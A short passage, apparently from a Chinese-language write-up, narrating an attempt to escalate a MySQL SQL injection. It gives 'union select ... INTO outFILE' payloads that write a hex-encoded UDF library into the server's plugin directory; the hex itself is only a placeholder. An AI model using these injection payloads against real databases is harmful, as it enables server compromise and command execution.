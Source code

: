 ![enter image description here](img/img36_u6_png.jpg)

我似乎傻逼了，因为查询结果还是只有 84 字节，结果显然不是我想要的。84 字节，不带这么坑的。一计不成又生二计。 不让我直接 dumpfile 那我间接的去写总行吧？ ￼

![enter image description here](img/img37_u5_png.jpg)

1 and 1=2 union select '','','',0xUDF 转换后的 16 进制 INTO outFILE'D:/install/dev/mysql5.5/lib/plugin/udf.txt'发现格式不对，给 hex 加上单引号以字符串方式写入试下: 1 and 1=2 union select '','','',’0xUDF 转换后的 16 进制’ INTO outFILE'D:/install/dev/mysql5.5/lib/plugin/udf.txt'
